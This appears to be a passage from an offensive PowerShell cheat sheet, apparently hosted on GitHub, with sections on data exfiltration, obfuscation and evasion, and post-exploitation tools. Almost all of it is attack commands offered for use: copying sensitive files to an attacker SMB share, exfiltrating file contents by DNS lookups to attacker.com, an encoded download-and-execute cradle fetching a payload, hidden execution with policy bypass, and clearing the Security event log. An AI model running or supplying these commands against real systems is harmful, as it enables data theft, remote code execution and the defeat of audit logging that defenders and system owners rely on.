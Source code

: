 
## **📤 Data Exfiltration**

### **Copy Files Over SMB**

```
Copy-Item "C:\SensitiveData.txt" "\\attacker\share\SensitiveData.txt"
```

### **Encode & Exfiltrate Data**

```
[Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\SensitiveData.txt"))
```

### **DNS-Based Exfiltration**

```
nslookup $(Get-Content C:\SensitiveData.txt | Out-String) attacker.com
```

---

## **🕵️‍♂️ Obfuscation & Evasion**

### **String Obfuscation**

```
$cmd = "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')" $enc = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($cmd)) powershell.exe -EncodedCommand $enc
```

### **Hiding PowerShell Execution**

```
powershell -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile -File script.ps1
```

### **Disable Security Logging**


`wevtutil cl Security`

---

## **🚀 Tools to Use**

- **PowerView** (Active Directory Recon)
- **PowerUp** (Privilege Escalation)
- **Invoke-Mimikatz** (Credential Dumping)
- **Nishang** (Post-Exploitation)
- **Empire** (PowerShell C2 Framework)
- **PSExec** (Lateral Movement)